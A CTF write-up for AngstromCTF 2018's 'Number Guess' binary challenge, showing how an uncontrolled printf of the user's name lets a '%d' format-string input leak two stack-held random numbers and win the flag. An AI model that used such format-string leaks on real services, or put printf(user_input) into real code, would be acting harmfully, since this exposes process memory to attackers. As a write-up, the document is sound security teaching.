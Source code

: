 # ANGSTORM CTF 2018: Number Guess

**Team:** ATLEASTWETRIED
**Category:** Binary
**Points:** 70
**Description:**

> Ian loves playing number guessing games, so he went ahead and wrote one himself (source). I hope it doesn't have any vulns. The service is running at nc shell.angstromctf.com 1235.

## Write Up

by Ovais Ellahi

The challenge is provided by https://angstromctf.com/problems

We are given two files, an elf 64-bit executable:

```bash
$ file guessPublic64
guessPublic64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0b444932c543f786c9e9b95ef43415fa0564c0a6, not stripped
```

and a c source file guessPublic.c.

When running the executable, we are asked to input a name, and then guess a random number within a range.

```bash
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
Ovais Ellahi
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
Ovais Ellahi's guess: 2314145 
Sorry, the answer was 1070812. Try again :(
```
To find an entry to exploit this problem, using `radare2` I list out all of the functions available in this executable:

```bash
$ r2 guessPublic64
 -- Use '-e bin.strings=false' to disable automatic string search when loading the binary.
[0x00400770]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00400770]> afl
0x00400680    3 26           sym._init
0x004006b0    1 6            sym.imp.puts
0x004006c0    1 6            sym.imp.strlen
0x004006d0    1 6            sym.imp.__stack_chk_fail
0x004006e0    1 6            sym.imp.printf
0x004006f0    1 6            sym.imp.__libc_start_main
0x00400700    1 6            sym.imp.srand
0x00400710    1 6            sym.imp.fgets
0x00400720    1 6            sym.imp.time
0x00400730    1 6            sym.imp.fflush
0x00400740    1 6            sym.imp.__isoc99_sscanf
0x00400750    1 6            sym.imp.rand
0x00400760    1 6            fcn.00400760
0x00400770    1 41           entry0
0x004007a0    4 50   -> 41   sym.deregister_tm_clones
0x004007e0    3 53           sym.register_tm_clones
0x00400820    3 28           sym.__do_global_dtors_aux
0x00400840    4 38   -> 35   entry1.init
0x00400866    6 485          main
0x00400a50    4 101          sym.__libc_csu_init
0x00400ac0    1 2            sym.__libc_csu_fini
0x00400ac4    1 9            sym._fini
```

It seems that the printf function is used to print out the name we input in the program.
That is our entry point, since now instead we can use format strings to directly print out values from the stack. 

But first, I had to look through the c source file to see how the random number is generated.

```bash
	srand(time(NULL));
	int rand1 = rand() % 1000000;
	int rand2 = rand() % 1000000;

	printf(buf);
	fflush(stdout);
	int guess;
	char num[8];
	fgets(num,8,stdin);
	sscanf(num,"%d",&guess);

	if (guess == rand1+rand2){
		printf("Congrats, here's a flag: %s\n", flag);
	} else {
		printf("Sorry, the answer was %d. Try again :(\n", rand1+rand2); 
	}

```

Looking at this code, we see that the number we have to guess is found by generating two random numbers between 1 and 1000000, and then adding them up. 

Since these two random numbers are stored as local variables on to the stack, we can exploit printf and use format strings to print out the stack and find those variables. 

To do this, I first try  "%d" * 10 as the input for the name to see the results:

```bash
$ ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%d %d %d %d %d %d %d %d %d %d
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
-921623700 1400 121043 -378421084 -378420960 -921623384 0 4196944 213548 -921623392's
guess: Sorry, the answer was 334591. Try again :(
```
Looking through the 10 decimal numbers, we can disregard the negative numbers, and numbers greater than the answer, which leaves us with `1400 121043 213548`.

By adding 121043 and 213548 gives us 334591, which was the answer. So it is positions 3 and 9 in the output, where the two local variables holding a random number lie.

Now we can simply input the same string and add the third and ninth decimals as our answer to get the string:

```bash
$ ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%d %d %d %d %d %d %d %d %d
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
1291100892 625 266123 -1343201116 -1343200992 1291101208 0 4196944 409334's guess: 675457
Congrats, here's a flag: REDACTED
```

There we go. We were able to guess the correct number and retrieve the flag.
